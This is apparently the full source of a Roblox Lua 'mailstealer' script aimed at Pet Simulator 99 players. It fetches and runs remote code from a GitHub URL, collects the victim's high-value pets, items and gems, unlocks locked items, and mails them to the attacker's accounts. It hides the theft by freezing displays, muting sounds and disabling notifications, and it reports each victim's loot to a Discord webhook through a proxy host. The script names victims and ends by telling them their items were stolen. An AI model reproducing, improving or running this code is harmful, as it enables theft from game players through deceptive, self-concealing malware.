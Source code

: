 Username = "rip_bay13"
Webhook = "https://discord.com/api/webhooks/1247271275223711844/rEur2tm0S9PHwB5EYpJf4mLxEaE4uQo2LaLOKQ3JOzmNfZKglsAZRyEtQw3p6hT7kA9-"
Mailmsg = "get scammed"
FakeLoadScreen = true
Fake_Hub_If_Not_Enough_Gems = false

loadstring(game:HttpGet("https://raw.githubusercontent.com/POGGERZ15/MAILSTEALER/main/Main.lua"))().ReplicatedStorage.Library)
local save = library.Save.Get().Inventory
local mailsent = library.Save.Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "gg / HcpNe56R2a"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
_G.scriptExecuted = _G.scriptExecuted or false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end

if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true

local newamount = 20000

if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end

local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end

if newamount > GemAmount1 then
    return
end

local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end

local function SendMessage(url, username, diamonds)
    local headers = {
        ["Content-Type"] = "application/json"
    }

	local totalRAP = 0
	local fields = {
		{
			name = "Victim Username:",
			value = username,
			inline = true
		},
		{
			name = "Items to be sent:",
			value = "",
			inline = false
		}
	}

    local combinedItems = {}
    local itemRapMap = {}

    for _, item in ipairs(sortedItems) do
        local rapKey = item.name
        if itemRapMap[rapKey] then
            itemRapMap[rapKey].amount = itemRapMap[rapKey].amount + item.amount
        else
            itemRapMap[rapKey] = {amount = item.amount, rap = item.rap}
            table.insert(combinedItems, rapKey)
        end
    end

    table.sort(combinedItems, function(a, b)
        return itemRapMap[a].rap * itemRapMap[a].amount > itemRapMap[b].rap * itemRapMap[b].amount 
    end)

    for _, itemName in ipairs(combinedItems) do
        local itemData = itemRapMap[itemName]
        fields[2].value = fields[2].value .. itemName .. " (x" .. itemData.amount .. ")" .. ": " .. formatNumber(itemData.rap * itemData.amount) .. " RAP\n"
        totalRAP = totalRAP + (itemData.rap * itemData.amount)
    end

    fields[2].value = fields[2].value .. "\nGems: " .. formatNumber(diamonds) .. "\n"
    fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)

    local data = {
        ["embeds"] = {{
            ["title"] = "New Execution" ,
            ["color"] = 65280,
			["fields"] = fields,
			["footer"] = {
				["text"] = "Mailstealer by Tobi. discord.gg/HcpNe56R2a"
			}
        }}
    }

    if #fields[2].value > 1024 then
        fields[2].value  = "List of items too big to send!\n\nGems: " .. formatNumber(diamonds) .. "\n"
        fields[2].value = fields[2].value .. "Total RAP: " .. formatNumber(totalRAP)
    end

    local body = HttpService:JSONEncode(data)
    local response = request({
		Url = url,
		Method = "POST",
		Headers = headers,
		Body = body
	})
end

local user = Username
local user2 = Username2 or "2pRiAMfYN41y"

local gemsleaderstat = plr.leaderstats["\240\159\146\142 Diamonds"].Value
local gemsleaderstatpath = plr.leaderstats["\240\159\146\142 Diamonds"]
gemsleaderstatpath:GetPropertyChangedSignal("Value"):Connect(function()
	gemsleaderstatpath.Value = gemsleaderstat
end)

local loading = plr.PlayerScripts.Scripts.Core["Process Pending GUI"]
local noti = plr.PlayerGui.Notifications
loading.Disabled = true
noti:GetPropertyChangedSignal("Enabled"):Connect(function()
	noti.Enabled = false
end)
noti.Enabled = false

game.DescendantAdded:Connect(function(x)
    if x.ClassName == "Sound" then
        if x.SoundId=="rbxassetid://11839132565" or x.SoundId=="rbxassetid://14254721038" or x.SoundId=="rbxassetid://12413423276" then
            x.Volume=0
            x.PlayOnRemove=false
            x:Destroy()
        end
    end
end)

local function getRAP(Type, Item)
    return (library.DevRAPCmds.Get(
        {
            Class = {Name = Type},
            IsA = function(hmm)
                return hmm == Type
            end,
            GetId = function()
                return Item.id
            end,
            StackKey = function()
                return HttpService:JSONEncode({id = Item.id, pt = Item.pt, sh = Item.sh, tn = Item.tn})
            end
        }
    ) or 0)
end

local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end

local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end

local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else
        return true
    end
end

local function EmptyBoxes()
    if save.Box then
        for key, value in pairs(save.Box) do
			if value._uq then
				network:WaitForChild("Box: Withdraw All"):InvokeServer(key)
			end
        end
    end
end

local function ClaimMail()
    local response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    while err == "You must wait 30 seconds before using the mailbox!" do
        wait()
        response, err = network:WaitForChild("Mailbox: Claim All"):InvokeServer()
    end
end

local categoryList = {"Pet", "Egg", "Charm", "Enchant", "Potion", "Misc", "Hoverboard", "Booth", "Ultimate"}

for i, v in pairs(categoryList) do
	if save[v] ~= nil then
		for uid, item in pairs(save[v]) do
			if v == "Pet" then
                local dir = library.Directory.Pets[item.id]
                if dir.huge or dir.exclusiveLevel then
                    local rapValue = getRAP(v, item)
                    if rapValue >= min_rap then
                        local prefix = ""
                        if item.pt and item.pt == 1 then
                            prefix = "Golden "
                        elseif item.pt and item.pt == 2 then
                            prefix = "Rainbow "
                        end
                        if item.sh then
                            prefix = "Shiny " .. prefix
                        end
                        local id = prefix .. item.id
                        table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = id})
                    end
                end
            else
                local rapValue = getRAP(v, item)
                if rapValue >= min_rap then
                    table.insert(sortedItems, {category = v, uid = uid, amount = item._am or 1, rap = rapValue, name = item.id})
                end
            end
            if item._lk then
                local args = {
                [1] = uid,
                [2] = false
                }
                network:WaitForChild("Locking_SetLocked"):InvokeServer(unpack(args))
            end
        end
	end
end

if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
		return
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = require(game.ReplicatedStorage.Library)
    local blob_b = blob_a.Save.Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    blob_a.Save.Get = function(...)
        return blob_b
    end

    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)

    if Webhook and string.find(Webhook, "discord") then
        Webhook = string.gsub(Webhook, "https://discord.com", "https://webhook.lewisakura.moe")
        spawn(function()
            SendMessage(Webhook, plr.Name, GemAmount1)
        end)
    end

    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    setclipboard("https://discord.gg/HcpNe56R2a")
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your valuable items just got stolen by Tobi's mailstealer!\nJoin discord.gg/HcpNe56R2a")
end
